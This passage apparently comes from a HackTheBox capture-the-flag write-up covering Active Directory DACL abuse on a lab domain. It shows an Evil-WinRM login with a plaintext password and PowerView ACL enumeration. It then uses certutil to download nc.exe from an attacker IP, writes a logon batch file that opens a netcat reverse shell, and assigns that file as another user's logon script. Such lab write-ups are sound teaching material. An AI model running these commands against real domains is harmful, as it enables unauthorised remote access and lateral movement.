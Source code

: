 The password of the user is `(Ni7856Do9854Ki05Ng0005 #)`. 

### DACL Abuse

We can now login with Evil-WinRM.

```console
$ evil-winrm -i 10.10.11.22 -u 'RSA_4810' -p '(Ni7856Do9854Ki05Ng0005 #)'
```
We look for ACLs that can be abused using PowerView.
```powershell
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ObjectAceType, ActiveDirectoryRights | fl

<SNIP>

IdentityReferenceName : RSA_4810
ObjectDN              : CN=SSA_6010,CN=Users,DC=blazorized,DC=htb
ObjectAceType         : Script-Path
ActiveDirectoryRights : WriteProperty

<SNIP>
```

We find one ACL for our current user that shows a WriteProperty on the script path of the `SSA_6010` user. By having this permission it could allow us to write a custom logon script that executes whenever this user tries to login to the machine. We can look if this user tried to login:
```powershell
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> [DateTime]::FromFileTime((Get-ADUser -Identity ssa_6010 -Properties LastLogon).LastLogon)
Saturday, November 9, 2024 4:32:38 AM
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> date
Saturday, November 9, 2024 4:32:44 AM
```

It looks like this person is logging in and out every minute so lets abuse this now. We are able to write a `bat` file in `sysvol\[domain]\scripts\` and use this to run a reverse shell whenever the user `SSA_6010` tries to login. We can check which logon script folder is from our target user by checking the permissions.

```powershell
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> icacls A32FF3AEAA23
A32FF3AEAA23 BLAZORIZED\RSA_4810:(OI)(CI)(F)
             BLAZORIZED\Administrator:(OI)(CI)(F)
             BUILTIN\Administrators:(I)(F)
             CREATOR OWNER:(I)(OI)(CI)(IO)(F)
             NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(RX)
             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
             BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
             BUILTIN\Server Operators:(I)(OI)(CI)(RX)
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> certutil -f -urlcache http://10.10.14.4:8888/nc.exe C:\Users\Public\nc.exe
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> echo 'C:\Users\Public\nc.exe 10.10.14.4 5555 -e cmd.exe' | Out-File -FilePath C:\windows\SYSVOL\sysvol\blazorized.htb\scripts\A32FF3AEAA23\login.bat -Encoding ASCII
*Evil-WinRM* PS C:\windows\sysvol\domain\scripts> Set-ADUser -Identity SSA_6010 -ScriptPath 'A32FF3AEAA23\login.bat'
```
